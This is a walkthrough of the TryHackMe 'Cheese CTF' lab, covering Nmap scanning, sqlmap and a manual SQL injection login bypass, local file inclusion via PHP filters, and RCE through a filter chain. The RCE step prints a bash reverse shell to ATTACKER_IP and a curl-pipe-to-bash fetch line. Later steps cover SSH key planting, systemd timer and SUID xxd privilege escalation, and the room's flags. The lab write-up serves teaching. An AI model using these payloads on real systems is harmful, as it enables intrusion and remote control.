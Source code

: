 # CHEESE CTF | TryHackMe Room
![1](./images/0.png)
This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.


### **1. Initial Reconnaissance**

**Port Scanning**

- Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).
![1](./images/1.png)

- Found that FTP (21), SSH (22), and HTTP (80) were open.
- Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.
![1](./images/2.png)

**FTP Enumeration**

- Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.
 ![1](./images/3.png)

Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).

**Web Enumeration (Port 80)**
- Visited http://<TARGET_IP> and inspected the page.
![1](./images/4.png)

- Checked the source code for hidden comments or secrets—nothing found.
![1](./images/5.png)

- Discovered a login page (/login.php). 
![1](./images/6.png)



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- Ran SQLmap to test for SQLi:
`sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch`
 ![1](./images/7.png)

- Found a SQL injection vulnerability in the login form and the redirection.
 ![1](./images/8.png)

- Extracted database information, including a username (comte) and its password hash.
 ![1](./images/9.png)


**Manual SQL Injection Bypass**

- Used a classic SQLi payload to bypass authentication:
```
Username: comte ' AND 1='1 --
Password: anything
```
   ![1](./images/10.png)

- Successfully logged in and was redirected to a dashboard (/dashboard.php).
 ![1](./images/11.png)



### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.
 ![1](./images/12.png)


**Reading PHP Files via Base64 Encoding**
- Used PHP filters to read source code:
`?file=php://filter/convert.base64-encode/resource=secret-script.php`
 ![1](./images/13.png)


- Decoded the Base64 output to analyze secret-script.php.
 ![1](./images/14.png)


**Log Poisoning → RCE**

- Since the server used PHP, leveraged PHP wrappers for RCE:
Wrote a malicious payload(revshell) with this bash reverse shell.
`bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` 
- I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command

`python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'`
 ![1](./images/15.png)

- Hosted it on a local server and triggered it via LFI.
`python3 -m http.server 80`
- Set up a listener  and received a shell.
`nc -lvnp <port>`
 ![1](./images/16.png)


**User Flag**
- Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`
 ![1](./images/17.png)

- Found that /home/comte/.ssh/ had write permissions.
 ![1](./images/18.png)

- Generated an SSH key pair (ssh-keygen).
 ![1](./images/19.png)

- Copied the public key (.pub) into authorized_keys.
 ![1](./images/20.png)

- Logged in via SSH and obtained the user flag.
`ssh comte@<TARGET_IP>`
 ![1](./images/21.png)
`THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- Checked sudo privileges (sudo -l), found systemctl access.
 ![1](./images/22.png)
- Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:
```
OnBootSec=0  
OnUnitActiveSec=0  
```
 ![1](./images/23.png)


- Found the services it will triggered

 ![1](./images/24.png)

- I looked in the .services and then I started the timer.
`sudo systemctl start exploit.timer`
 ![1](./images/25.png)


**Reading Root Flag via xxd**
- Found that xxd (a hexdump utility) saved as a copy had SUID permissions.
 ![1](./images/26.png)

- Used xxd to read /root/root.txt:
`xxd "/root/root.txt" | xxd -r`
 ![1](./images/27.png)
`THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
